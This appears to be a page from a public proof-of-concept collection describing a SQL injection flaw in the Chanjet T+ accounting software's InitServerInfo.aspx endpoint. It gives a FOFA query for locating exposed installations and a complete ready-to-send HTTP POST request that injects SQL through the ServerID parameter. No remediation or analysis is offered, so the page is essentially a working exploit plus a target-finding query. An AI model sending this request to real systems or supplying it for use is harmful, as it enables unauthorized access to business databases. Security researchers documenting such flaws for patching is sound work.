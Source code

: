 ## 用友畅捷通TPlus-InitServerInfo存在SQL注入漏洞

## fofa
```
app="畅捷通-TPlus"
```

## poc
```
POST /tplus/UFAQD/InitServerInfo.aspx?preload=1 HTTP/1.1
Host: 
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:123.0) Gecko/20100101 Firefox/123.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded
Connection: close
Upgrade-Insecure-Requests: 1
Content-Length: 113

operbtn=create&ServerID=1'%2b(select 1 where 1 in (SELECT sys.fn_varbintohexstr(hashbytes('MD5','123456'))))%2b'1
```
![c2758ffb9af884d3e9246f48e1c4191a](https://github.com/wy876/POC/assets/139549762/520a3274-ce88-43b9-89a7-fc20505017bb)
